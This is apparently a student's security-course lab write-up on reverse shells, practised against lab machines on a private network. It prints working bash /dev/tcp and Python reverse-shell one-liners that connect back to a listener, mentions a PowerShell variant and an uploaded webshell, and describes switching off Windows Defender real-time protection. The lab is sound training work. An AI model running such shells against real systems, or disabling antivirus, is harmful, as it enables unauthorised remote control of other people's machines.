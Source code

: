 # Lab 8.2 - Reverse Shells

💡A reverse shell occurs when we convince the target to connect to the attacker. This vastly simplifies command and control because firewall egress rules are nearly always more permissive than ingress rules. Even so, Windows 10 will present us with a problem.
In the spirit of living off the land, we will spend some time using target native tools (as opposed to uploading or installing nc on the target) to create a command and control channel between the target and kali. The "target" is not actually a pen testing target but just a generic Rocky 8.5 Linux server that we can practice on. Some exercises will leverage our previously exploited systems



## Bash Reverse Shell on Linux

1. Login to sec335-rocky(10.0.17.200) from kali using ssh and your cyber.local credentials.

   `ssh hasan.hashim@cyber@10.0.17.200`

   ![image-20221105233819338](./images/6.png)

   

2. Determine your DHCP address for your kali vm's eth0 (not wg0)

   `ifconfig`

   ![image-20221105234244221](./images/7.png)

3. On Kali, Create a nc listener on 4449/tcp

   `nc -nlvp 4449`

   ![image-20221105234331140](./images/8.png)

4. On Rocky Use a native bash reverse shell to connect back to your listener

   I used the following command to send back connection to our nc:

   `/bin/bash -i >& /dev/tcp/10.0.17.119/4449 0>&1`

   ![image-20221105234838146](./images/9.png)

   ![image-20221105234957003](./images/10.png)

5. Interact with sec335-rocky over your kali nc session.

![image-20221105235235616](./images/11.png)



## Deliverable 1. Run wireshark, create a capture filter on 4449/tcp and capture a command or two entered through the nc session. Provide a screenshot showing the followed tcp stream, similar to the screenshot below.

![image-20221105235741118](./images/12.png)



## Deliverable 2. Try this out on Pippen by leveraging an uploaded webshell or reverse shell on pippen to run a similar command to connect back to a listener. You may need to upload a small shell script to make this happen, particularly if you are using the simple-backdoor.php script. Provide a screenshot similar to the one below that shows you invoking the reverse shell on the target via curl or your web browser and catching the connection on your kali box.

![image-20221106002838435](./images/13.png)



![image-20221106010306299](./images/16.png)

![image-20221106010209947](./images/14.png)

![image-20221106010239928](./images/15.png)



# Windows Powershell Reverse Shell

References: https://book.hacktricks.xyz/shells/shells/windows

The following powershell code is run via cmd.exe. Change ATTACKERIP and ATTACKERPORT to the eth0 IP on kali and port you assigned to a nc listener.

![image-20221106014749383](./images/19.png)

Before we start play with code we need to turn off windows defender:

Search for "Virus & threat protection" ----> go to "manage settings" -----> and switch off the "Real-time protection is ..."

![image-20221106013249985](./images/22.png)

![image-20221106013433200](./images/23.png)

First I took the PowerShell script and then I changed the ip and the port.

![image-20221106014303118](./images/17.png)

And then I checked my kali box and I had connection:

![image-20221106014553326](./images/18.png)





Python:

Reference: https://pentesting.one2bla.me/payloads/payloads

 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.119",4449));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![image-20221106012703108](./images/21.png)

![image-20221106012108759](./images/20.png)



## Reflections: 

This lab was fun and interesting. I had some hard time when I tried to create a reverse shell using PHP, looks like it is not installed on hasan.hashim@cyber@10.0.17.200 Linux and I don't root access to install it. But at the end I used Python.









